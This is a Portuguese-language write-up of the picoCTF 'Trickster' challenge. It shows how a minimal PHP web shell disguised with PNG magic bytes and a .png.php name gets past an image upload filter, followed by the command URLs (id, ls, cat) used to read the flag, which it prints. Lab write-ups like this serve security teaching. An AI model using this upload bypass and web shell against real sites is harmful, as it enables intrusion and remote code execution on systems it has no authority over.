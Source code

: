 # Trickster  
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Upload Arbitrário de Arquivos, Execução Remota de Código (RCE) e Exposição de Diretórios e Arquivos Sensíveis

## Sobre o Desafio

Encontrei um aplicativo da web que pode ajudar a processar imagens: apenas imagens PNG!<br>
Detalhes adicionais estarão disponíveis após o lançamento de sua instância de desafio.

- [Trickster](https://play.picoctf.org/practice/challenge/445) 

## Solução  

Abrimos a URL do desafio e identificamos uma funcionalidade de upload que aceita apenas arquivos .png.

![image](https://github.com/user-attachments/assets/5a513762-7cf8-4af4-8382-ff46da02f5dc)

Criamos um arquivo yo.php com uma simples payload PHP `(<?=\$_GET[0]`?>`)`.

Tentamos enviá-lo, mas o servidor rejeitou, indicando que o nome do arquivo precisava conter .png.

Renomeamos o arquivo para yo.png.php e tentamos o upload novamente.
O servidor aceitou o nome, mas ainda rejeitou o arquivo dizendo que não era um PNG válido.

Pegamos os bytes mágicos do PNG (89 50 4E 47 0D 0A 1A 0A).
Criamos um arquivo base.png, abrimos em um editor hexadecimal e inserimos os bytes mágicos no início.
No final do arquivo, adicionamos a payload PHP (<?=\$_GET[0]`?>`).
Renomeamos para yo.png.php e fizemos o upload novamente.

Testamos diretórios comuns (/uploads/, /files/, /images/) e encontramos nosso arquivo em:

http://atlas.picoctf.net:62573/uploads/yo.png.php

Testamos a execução de código com ?0=id, confirmando o acesso

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=id

Listamos arquivos no diretório

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=ls ..

Encontramos GQ4DOOBVMMYGK.txt e lemos o conteúdo

http://atlas.picoctf.net:62573/uploads/yo.png.php?0=cat%20../GQ4DOOBVMMYGK.txt



![image](https://github.com/user-attachments/assets/58157f2b-faf5-4fa4-8736-2362f4d855fd)

![image](https://github.com/user-attachments/assets/3b878932-f653-47d5-bef0-978a6afaa22f)

![image](https://github.com/user-attachments/assets/192391de-0113-44a6-ab5e-cec08305a643)

![image](https://github.com/user-attachments/assets/18837203-98d9-44d0-aac9-3c0bf62e7a3a)

![image](https://github.com/user-attachments/assets/23009445-c52c-47c7-a126-8084b6efd24d)

![image](https://github.com/user-attachments/assets/5fc90973-f63b-44b4-93d2-7496179895dc)

![image](https://github.com/user-attachments/assets/c443c4ff-015d-44cc-b707-d0aad97d8398)

![image](https://github.com/user-attachments/assets/f448d0dc-aa4d-44c9-a156-20f23310f1b9)

![image](https://github.com/user-attachments/assets/77bd82c3-e2cd-4150-a259-d26c06d14ac9)




> Assim, obtemos a flag `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}`  
